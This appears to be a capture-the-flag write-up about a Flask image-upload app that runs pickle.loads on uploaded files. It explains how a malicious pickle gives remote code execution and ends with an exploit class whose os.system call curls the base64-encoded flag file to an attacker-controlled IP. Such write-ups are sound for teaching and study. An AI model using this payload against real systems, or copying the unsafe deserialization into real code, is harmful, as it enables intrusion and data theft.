 ```python

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')

```

Looking at the source code, we deduce that the app is checking for image extension and then uploading it to `/images/` directory with a random name.

The interesting part is in the `/image/<filename>` route

```python
@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)
```

as you can see right inside the "try" block , the app tries to load picked data from the image. And we all know that processing unsafe pickle data can lead to an rce. More about it [here](https://medium.com/ochrona/python-pickle-is-notoriously-insecure-d6651f1974c9)

So the steps to get an rce for this app is
1. Create a image with insecure pickle data
2. Upload image
3. Visit image to make the app run `pickle.loads` and get an RCE.


Here is the exploit I used +  modified

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('curl http://<my-aws-ip>/$(cat flag.txt | base64)')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
```